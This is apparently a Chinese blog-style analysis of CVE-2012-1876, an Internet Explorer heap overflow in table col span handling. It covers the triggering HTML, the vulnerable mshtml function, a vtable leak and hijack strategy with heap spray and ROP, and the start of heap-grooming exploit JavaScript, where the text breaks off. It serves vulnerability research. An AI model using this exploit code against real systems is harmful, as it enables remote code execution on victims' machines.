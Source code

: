 **漏洞产生**

漏洞利用浏览器对table对象中col标签的解析所产生的堆漏洞。

```
&lt;table style="table-layout:fixed" &gt;&lt;col id="132" width="41" span="1" &gt;  &lt;/col&gt;&lt;/table&gt;
```

漏洞函数`CTableLayout::CalculateMinMax`原型

```
void __thiscall CTableLayout::CalculateMinMax(
        CTableLayout* theTableLayoutObj,
        LPVOID lpUnknownStackBuffer )
```

当Table表第一次创建时，向计算机申请了`span*0x1c`（但最少为0x70）的堆空间。*

但当使用javascript修改这个对象的`span`值，程序不会申请更大的内存空间，而是会向原本只有0x70的空间写入`span*0x1c`的数据，造成堆溢出。

发生堆溢出的vulheap位于漏洞函数`CalculateMinMax`的`ebx+0x9c`位置

复制的数据来源是width的值（需要分析AdjustForCol函数），具体算法没有分析但当`width=41`，传递的值为41*100=0x1004。

****堆溢出的完整分析可以访问我的[个人博客](https://migraine-sudo.github.io/2019/12/01/CVE-2012-1876/)****

**如何利用**

国外著名安全组织VUPEN的对该漏洞的利用方式是通过构造一连串的padding（BSTR字符串，0x100），来申请堆空间，然后通过堆溢出来读取/修改虚函数表。
- 泄漏地址部分
通过覆写BSTR字符串的前四个字节，修改其长度，再通过javascript读取，就能读取到后方的CButtonLayout对象的虚函数表内容。而CButtonLayout的虚函数表于其模块mshtml的偏移地址是固定的，能够帮助我们泄漏Mshtml基地址。
- 利用部分
再次溢出，修改CButtonLayout表的虚函数表指针。结合HeapSpray(heap-feng-shui)和ROP绕过DEP。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/CVE-2012-1876/%E7%BB%95%E8%BF%87ASLR26339.png)

**从exploit看OOB**

通过构建BSTR数组结构，实现一个OOB（地址读取）来读取虚函数表。

首先创建大量的连续内存，大小为0x100的BSTR结构。然后将EEEE填充的部分释放（通过垃圾回收函数CollectGarbage）然后创建`&lt;table&gt;`对象，占坑被释放的空间。col属性span=9，则会分配9*0x1c=0xfc，占坑之前被释放的0x100大小的空间。

形成上方的结构图。

```
&lt;div id="evil"&gt;&lt;/div&gt;
&lt;script language='javascript'&gt;
        var leak_index = -1;
        var dap = "EEEE";
        while ( dap.length &lt; 480 ) dap += dap;

        var padding = "AAAA";
        while ( padding.length &lt; 480 ) padding += padding;

        var filler = "BBBB";
        while ( filler.length &lt; 480 ) filler += filler;

        var arr = new Array();
        var rra = new Array();

        var div_container = document.getElementById("evil");
        div_container.style.cssText = "display:none";
        //1.布局堆块内存
        for (var i=0; i &lt; 500; i+=2) `{`
            // E
            rra[i] = dap.substring(0, (0x100-6)/2);
            // S, bstr = A
```